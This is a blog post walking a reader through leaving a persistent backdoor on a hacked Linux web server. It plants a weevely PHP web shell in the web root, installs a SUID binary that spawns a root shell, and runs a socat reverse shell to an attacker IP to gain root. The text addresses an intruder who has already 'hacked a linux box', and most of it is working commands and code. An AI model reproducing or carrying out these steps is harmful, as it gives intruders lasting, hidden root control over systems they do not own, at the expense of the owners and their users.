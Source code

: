 ```yaml
---
title: "Persistent Backdoor in Linux Environment"
subtitle: ""
date: 2021-02-18T14:53:36+05:00
lastmod: 2021-02-18T14:53:36+05:00
draft: false
author: "Abdullah Khabir"
authorLink: "https://abdullah.today"
description: ""

tags: [backdoor, persistent backdoor, trojan, malware, RAT, security, weevely, super user, privileges escalation, pivoting]
categories: []

hiddenFromHomePage: false
hiddenFromSearch: false

featuredImage: ""
featuredImagePreview: ""

toc:
  enable: true
math:
  enable: false
lightgallery: false
license: ""
---
```

So you have hacked a linux box. Next step should be leave a persistent backdoor 
so in case, it is rebooted, you have to repeat all those steps again and again.

There are multiple methods available to create a persistent backdoor. 
Today I'm going to explain how you can create a backdoor in webservers.

### Tools needed
- socat
- weevely
- some common sense

### Installing Tools

#### weevely

Install weevely if you don't have it. Its written in Python. Availabe in Kali Linux by default. 

If you don't have Kali Linux installed, just clone the repository and install 
it.

```bash
git clone https://github.com/epinna/weevely3.git
cd weevely3
pip3 install -r requirements.txt --upgrade
```
If you don't have RUST installed, you can install weevely as

```bash
CRYPTOGRAPHY_DONT_BUILD_RUST=1 pip3 install -r requirements.txt --upgrade
```
#### socat

Install socat for your OS. You can grab binaries from [here](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat).

```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /usr/bin/socat
chmod +x /usr/bin/socat
```

### Creating backdoor

With weevely we are going to create a backdoor.

```bash
weevely generate backdoor.php some_password
```
Replace some_password with some memorable password.

If you get errors like no weevely found, go to git repository and run weevely.py 
with python.

```bash
cd weevely3
python3 weevely.py generate backdoor.php some_password
```

### Push backdoor to web server

Now we have our backdoor created, next job is to push it to webserver. Copy it 
to webserver's root.

```bash
scp backdoor.php 192.168.1.100:/var/www/html/backdoor.php
```

### Executing our backdoor

You can execute your backdoor with weevely like this:

```bash
weevely http://192.168.1.100/backdoor.php some_password
```

Replace some_password with the password you entered while creating this 
backdoor.

Execute `ls` and you will get a shell.
You can use :help to get other weevely options.
Just type : and press TAB to get auto complete options.


### Extending our backdoor

This backdoor will give you a normal user access. You can extend it. Lets do it.

#### Creating SUID executable

In your local machine, create a new file with these contents:

```bash
cat mysuid.c

int main() {
    setresuid(0,0,0);
    system("/bin/sh");
}
```

Compile it, change permissions and set suid.

```bash
gcc -o mysuid mysuid.c
chown root:root mysuid
chmod u+s mysuid
```

#### Push SUID bit executable to victim

Now push this executable to victim system as root.

```bash
scp mysuid 192.168.1.100:/usr/bin/mysuid
```
#### Push socat to victim 

If victim system doesn't have socat, push socat from local system or download 
binary from Github as stated above.

```bash
scp /usr/bin/scoat 192.168.1.100:/usr/bin/socat
```

Or in victim system run this:

```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /usr/bin/socat
chmod +x /usr/bin/socat
```

### Getting root shell

On your local machine, run:

```bash
socat file:`tty`,raw,echo=0 TCP-L:1337
```

Using weevely get a non-privileged shell. And run this:

```bash
/usr/bin/socat exec:'/bin/bash -li',pty,stderr,setsid,sigint,sane tcp:YOUR_ATTACK_MACHINE_IP:1337
```

You will get a shell. Now execute mysuid we copied earlier.

```bash
/usr/bin/mysuid
```

You will get a root shell.

Thanks for reading.
